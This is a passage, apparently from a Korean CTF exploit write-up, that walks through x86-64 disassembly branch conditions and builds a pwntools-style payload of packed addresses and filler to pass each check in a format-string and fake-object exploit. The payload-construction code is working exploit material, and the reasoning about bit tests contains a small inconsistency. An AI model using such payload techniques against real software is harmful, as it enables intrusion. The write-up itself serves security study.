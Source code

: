 다음 조건을 보면 다음과 같습니다.

```
	  test     rax, rax
/---jnz      10cb0
|
| (FALSE) RAX != 0
|
\-->test     byte ptr [rbx+0x20], 2
/---jnz     10F27
|
| (FALSE) (byte *)rbx[4] & 2 != 0 : cond_3
|
\-->mov     rax, [rbx]
	  mov     rsi, cs:...
	  mov     rdi, [rax+0x40]
```

지금 `test byte ptr [rbx+0x20], 2` 조건을 `False` 시켜야 합니다. `test` 연산은 `and` 연산을 하기 때문에 `rbx+0x20`의 위치의 값을 홀수로 넣어야 합니다. 간단히 1로 넣도록 하겠습니다.

```
(assume that payload already had '%13$@ZZZ')
payload = p64(stack_addr) + "A"*8             # rbx = &payload
payload += "B" * 0x10
payload += p64(1)                             # for cond_3 <-- [rbx+0x20]
payload += "B" * 0x18
payload += p64(stack_addr+0x50) + "C"*8
payload += p64(stack_addr+0x50)               # rdx = &payload + 0x50
payload += p64(stack_addr+0x50+0x30)          # [rdx+8] : for cond_2
payload += "E" * 0x10
paylaod += "F" * 8
payload += p64(0)                             # cond_1 : [rdx+0x28]
payload += p64(0)                             # *[rdx+8] point here for cond_2
```

다음 조건을 보면 다음과 같습니다.

```
\-->mov     rax, [rbx] 		  ; rax = [rbx]
	  mov     rsi, cs:...
  	mov     rdi, [rax+0x40] ; rdi = rax[8] = (*(*rdi))[8]
  	mov     rdx, [rsi]
  	mov     r8, [rdi+0x28]
  	mov     r9d, edx
  	mov     rax, rdx
  	shl     r9d, 5
  	shr     rax, 0x20
  	add     r9d, eax
  	cmp     r9, r8 	   		
/---jb      10F14 					
|
| (TRUE) r9 < r8 : cond_4
|
| 	mov     rax, [rdi+8]
|	  mov     rax, [rax]
| 	jmp     10E2B
|
\-->### 10F14
  	mov     r9, [rdi] 		; r9 = [rdi]
  	mov     r10d, edx 		; r10d = edx
```
